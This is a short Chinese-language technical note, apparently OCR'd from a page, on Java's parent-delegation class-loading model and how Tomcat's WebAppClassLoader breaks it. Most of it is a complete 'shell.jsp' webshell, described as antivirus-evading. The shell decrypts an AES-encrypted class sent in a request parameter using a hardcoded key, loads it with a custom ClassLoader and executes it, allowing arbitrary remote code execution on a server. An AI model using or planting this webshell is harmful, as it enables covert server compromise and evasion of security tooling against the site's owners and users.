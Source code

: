 双亲委派模型是 Java 类加载机制的重要组成部分，它通过委派父加载器优先加载类的方式，实现了两个关键的安全目标：避免类的重复加载和防止核心 API 被篡改。

JVM 区分不同类的依据是类名加上加载该类的类加载器，即使类名相同，如果由不同的类加载器加载，也会被视为不同的类。 双亲委派模型确保核心类总是由 `BootstrapClassLoader` 加载，保证了核心类的唯一性

我们比较熟悉的 Tomcat 服务器为了能够优先加载 Web 应用目录下的类，然后再加载其他目录下的类，就自定义了类加载器 `WebAppClassLoader` 来打破双亲委托机制。这也是 Tomcat 下 Web 应用之间的类实现隔离的具体原理。

## 举例

利用类加载机制，实现字节码加密，恶意类加密，动态传入恶意类实现命令执行的免杀JSP木马

* shell.jsp

```jsp
<%@page import="java.util.*,java.io.*,javax.crypto.*,javax.crypto.spec.*"%>
<%!
class Crypto {
    // 使用32字节密钥
    static SecretKeySpec key = new SecretKeySpec(
        "this_is_a_32bytes__1234567890abc".getBytes(), "AES"
    );
    
    static byte[] decrypt(byte[] encrypted) throws Exception {
        // 分离IV和密文
        byte[] iv = new byte[16];
        byte[] data = new byte[encrypted.length - 16];
        System.arraycopy(encrypted, 0, iv, 0, 16);
        System.arraycopy(encrypted, 16, data, 0, data.length);
        
        Cipher cipher = Cipher.getInstance("AES/CBC/PKCS5Padding");
        cipher.init(Cipher.DECRYPT_MODE, key, new IvParameterSpec(iv));
        return cipher.doFinal(data);
    }
}

class ShadowLoader extends ClassLoader {
    public Class<?> load(byte[] classBytes) throws Exception {
        return super.defineClass(null, classBytes, 0, classBytes.length);
    }
}
%>
<%
String param = "payload";
if(request.getParameter(param) != null) {
    try {
        byte[] encrypted = Base64.getDecoder().decode(
            request.getParameter(param).replaceAll(" ", "+")
        );
        byte[] classBytes = Crypto.decrypt(encrypted);
        
        Object result = new ShadowLoader()
            .load(classBytes)
            .newInstance()
            .equals(pageContext);
        
        if(result != null) {
            out.print(result.toString());
        }
    } catch(Exception e) {
        out.print("ERROR: " + e.getMessage());
    }
}
%>
```
